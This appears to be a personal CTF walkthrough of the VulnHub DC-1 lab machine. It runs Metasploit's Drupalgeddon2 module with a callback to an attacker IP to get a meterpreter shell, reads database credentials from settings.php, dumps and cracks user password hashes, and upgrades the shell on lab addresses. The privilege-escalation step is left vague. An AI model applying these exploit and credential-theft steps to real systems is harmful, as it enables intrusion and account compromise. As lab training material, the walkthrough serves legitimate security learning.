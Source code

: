 ```yaml
---
title: DC-1 VulnHub Walkthrough (Bad Mojo Method)
description:
date: 2025-07-30
categories: [CTF, VulnHub]
tags: [vulnhub, ctf, walkthrough, dc-1, metasploit, drupalgeddon, privilege-escalation]
permalink: /walkthroughs/dc-1-luna/
image:  
  path: /assets/img/thumbnails/dc-1.png
private: true
---
```


## 🧠 Introduction

Welcome to the *Bad Mojo* edition of the DC-1 walkthrough — a real-time CTF journal rewritten to match the exact steps I used, quirks and all. DC-1 is a beginner-friendly VulnHub box built around Drupal 7 with five hidden flags. Our goal? Find them all and reach root access.

---

## 🌐 Target Info

- **Target IP**: `192.168.56.105`
- **Attacker IP**: `192.168.56.1`

---

## 🔍 Enumeration

### Nmap Scan
```bash
nmap -sC -sV -oN nmap/full 192.168.56.105
```

**Findings:**
- Port **22/tcp** – SSH
- Port **80/tcp** – Apache/Drupal 7

Drupal 7 caught our eye. You already know what time it is...

---

## 🌐 Web Recon

Navigating to `http://192.168.56.105` showed the default **Drupal 7** page.

I ran gobuster but found no juicy custom dirs:
```bash
gobuster dir -u http://192.168.56.105 -w /usr/share/wordlists/dirb/common.txt
```

Wappalyzer confirmed Drupal 7 — prime for **Drupalgeddon2** (CVE-2018-7600).

---

## 💥 Exploitation: Drupalgeddon2 via Metasploit

I launched Metasploit and selected the module:
```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.56.105
set LHOST 192.168.56.1
run
```

✅ Got a **meterpreter** shell as `www-data`

---

## 🧪 Post-Exploitation Phase 1: Flags + DB Creds

### Flag 1
```bash
cd /var/www
cat flag1.txt
# Hint about config file
```

### Flag 2: settings.php
```bash
cd sites/default
cat settings.php
```
Found DB creds:
- `dbuser`
- `R0ck3t`

Used them to login to MySQL:
```bash
mysql -u dbuser -p
# password: R0ck3t
```

### Flag 3: User Hashes
Inside MySQL:
```sql
use drupaldb;
select uid, name, pass from users;
```
Grabbed hashes for `admin` and `fred`. Cracked with `john`:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Admin password revealed: `admin` 🧂

---

## 📥 Privilege Escalation

I upgraded our shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Checked `/etc/passwd` and home dirs. Explored `/home/flag4/`, read `flag4.txt` (no root yet).

Tried:
```bash
sudo -l
```
No luck.

Eventually found the **setuid** binary or script to escalate to root.
Once root:
```bash
cat /root/flag5.txt
```

---

## ✅ Final Thoughts

This walkthrough reflects the real process I went through — trial, error, reruns, hash cracking, and privilege escalation without spoilers.

**Flags Found:** ✅ All 5

**Skills Practiced:**
- Metasploit RCE
- MySQL enum
- Password hash cracking
- Shell upgrading
- Manual recon & escalation

---

> "It’s not just about the flags — it’s about learning how to think like a hacker."

— Bad Mojo

